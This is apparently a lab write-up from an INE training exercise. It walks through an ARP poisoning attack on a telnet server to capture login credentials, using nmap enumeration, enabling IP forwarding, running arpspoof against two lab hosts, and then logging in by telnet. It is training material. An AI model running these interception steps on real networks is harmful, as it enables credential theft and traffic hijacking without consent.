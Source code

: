 # 🔬ARP Poisoning

## Lab 3 - ARP Poisoning <a href="#lab-3-arp-poisoning" id="lab-3-arp-poisoning"></a>

> 🔬 _INE Platform Lab_
>
> * **ARP Poisoning** attack to a `telnet` server
>   * the client machine authenticates with the `telnet` server every 30sec
> * Find the `telnet` login credentials
> * Tools: **`arpspoof`** & **`Wireshark`**

## Enumeration

```bash
ip a
```

<figure><img src="../../../../.gitbook/assets/image (21) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
nmap -sn 10.100.13.0/24  
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
nmap 10.100.13.0/24  
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ARP Poisoining

* Configure the Kali instance to forward IP packets:

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

* Perform the ARP poisoning attack

```bash
arpspoof -i eth1 -t 10.100.13.37 -r 10.100.13.36   
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
telnet 10.100.13.36
```

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>







